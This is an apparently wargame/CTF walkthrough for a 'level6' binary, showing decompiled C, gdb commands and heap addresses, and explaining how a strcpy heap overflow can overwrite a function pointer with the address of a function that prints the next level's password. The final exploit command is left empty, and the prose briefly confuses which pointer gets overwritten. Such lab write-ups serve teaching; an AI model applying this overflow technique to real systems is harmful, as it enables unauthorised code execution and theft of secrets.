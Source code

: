 # Walkthrough

## Reversing

```c
void main(int argc,char **argv)
{
  char *__dest;
  code **ppcVar1;

  __dest = (char *)malloc(64);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,argv[1]);
  (**ppcVar1)();
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)
{
  puts("Nope");
  return;
}

void n(void)
{
  system("/bin/cat /home/user/level7/.pass");
  return;
}
```

Okey, another easy one, `strcpy` is well knonw to be unsafe, it is susceptible
to buffer overflow.

Why you ask? Well, because looking at its prototype
`char *strcpy(char *dest, const char *src)` we can see that there is no actual
check for bounds and if the source is bigger than the destination then the
remaining bytes will overflow in the memory and will possibly override
important areas of memory (which is exactly what we’re going to do).

## Exploit

But how do we exploit this? Well, this binary is ratter interesting, it
executes the malloc in a certain interesting order, so `ppcVar1` will be
just behind `__dest`, so if we overflow `ppcVar1`, we can overwrite `__dest`,
let's make sure this is true with gdb:
```bash
gdb ./level6
b *main+21
b *main+37
r
p/x $eax
c
p/x $eax
```

This are the heap addresses returned by the mallocs (ir order):
```raw
0x0804a008
0x0804a050
```

A quick substract show us that indeed, the second malloc is just after the
first malloc (which has a size of 64 bytes):
```bash
echo 'ibase=16;804A050-804A008' | bc
72
```

The 12 additional bytes are probably the `malloc_chunk` struct of `libc`, we
should not overwrite that, of course, but who cares, we are exploiting a
binary.

So, our `argv[1]` should be something in the lines of:
- `64` + `12` offset bytes.
- `08048454` address of `n`, to overwrite `ppcVar1`.

Let's try:
```bash
;
```
